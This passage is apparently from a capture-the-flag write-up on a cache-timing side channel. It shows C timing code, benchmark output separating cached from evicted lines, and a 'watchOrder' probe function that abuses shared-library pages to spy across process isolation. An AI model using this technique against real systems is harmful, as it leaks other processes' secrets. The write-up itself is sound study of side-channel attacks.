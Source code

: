 ```
  printf("avg cached=%lf\n",total_access/50);
  printf("avg evicted=%lf\n",total_evict/50);

  return 0;
```
This should return something like this (in my machine, maybe it's necessary to check on server also):
```
...
time w acess: 68
time no acess: 304
time w acess: 66
time no acess: 308
avg cached=68.400000
avg evicted=347.200000
root@esoj:/tmp/writeup/attachments/src# head /proc/cpuinfo 
processor	: 0
vendor_id	: GenuineIntel
cpu family	: 6
model		: 158
model name	: Intel(R) Core(TM) i5-7500 CPU @ 3.40GHz
stepping	: 9
cpu MHz		: 3408.006
cache size	: 6144 KB
```
![Memory response time diference ](https://github.com/Jos3Luiz/pwn2win2020-stolen-backdoor-writeup/blob/master/images/cache.png)


That's a diference of almost 280 cycles, so its more than suficient to define wheter the line in on cache or in main memory.I am define the threshold as 160.
Also, searching in google shows that intel cpus usually have 64 bytes cache line lenght.

So our exploit will be:
```
void watchOrder(wchar_t *base,unsigned char *set,char *output){
	register unsigned j,i;
	register unsigned used;
	register unsigned long time_fast;

	j=0;
	while (j<PROBE_AMMOUNT_ORDER){
	  for (i=0;set[i]!='\0';i++){
		used=set[i]-'-';

        //same access rules as in printTranslate
		time_fast=probe_timing((char *)(&base[G*used]));
	 	if(time_fast < 0xa0 ){
			output[j]=used+'-';
			j++;
		}	
	  }
	}
	output[j]='\0';
}
```
# Breaking process isolation
Because of COW, two process using the same shared library will be sharing the same phisical address, (so ASLR doesn't matter in this case). There will be 2 threads running concorrent: spy and encoder:
